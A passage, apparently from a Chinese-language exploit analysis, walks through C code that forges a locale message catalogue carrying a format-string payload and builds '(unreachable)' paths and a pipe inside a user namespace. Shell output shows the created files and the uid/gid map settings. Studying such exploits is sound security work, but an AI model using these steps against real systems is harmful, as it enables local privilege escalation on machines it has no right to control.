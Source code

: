 ```c
          "%s: target is busy\n        (In some cases useful info about processes that\n         use the device is found by lsof(8) or fuser(1).)"
      },
      (char*[]){"1234", stackDumpStr, "5678"},
      3);	// 伪造一个 catalogue，将上面的 stackDumpStr 格式化字符串写进去

  [...]
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "%s/(unreachable)/tmp/%s/X.X/LC_MESSAGES/util-linux.mo",
      namespaceMountBaseDir, osReleaseExploitData[2]);
  secondPhaseTriggerPipePathname=strdup(pathBuffer);	// 创建文件

  [...]
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "%s/(unreachable)/tmp/%s/X.x/LC_MESSAGES/util-linux.mo",
      namespaceMountBaseDir, osReleaseExploitData[2]);
  secondPhaseCataloguePathname=strdup(pathBuffer);		// 创建文件

  return(namespacedProcessPid);		// 返回子进程 ID
}
```
所创建的各种类型文件如下：
```
$ find /proc/10173/cwd/ -type d
/proc/10173/cwd/
/proc/10173/cwd/(unreachable)
/proc/10173/cwd/(unreachable)/tmp
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/X.x
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/X.x/LC_MESSAGES
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/X.X
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/X.X/LC_MESSAGES
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/C.UTF-8
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/C.UTF-8/LC_MESSAGES
/proc/10173/cwd/(unreachable)/x
$ find /proc/10173/cwd/ -type f
/proc/10173/cwd/DATEMSK
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/C.UTF-8/LC_MESSAGES/util-linux.mo
/proc/10173/cwd/ready
$ find /proc/10173/cwd/ -type l
/proc/10173/cwd/(unreachable)/tmp/down
$ find /proc/10173/cwd/ -type p
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/X.X/LC_MESSAGES/util-linux.mo
```

然后在父进程里可以对子进程进行设置，通过设置 `setgroups` 为 deny，可以限制在新 namespace 里面调用 setgroups() 函数来设置 groups；通过设置 `uid_map` 和 `gid_map`，可以让子进程自己设置好挂载点。结果如下：
```
$ cat /proc/10173/setgroups 
deny
$ cat /proc/10173/uid_map 
         0        999          1
$ cat /proc/10173/gid_map 
         0        999          1
```
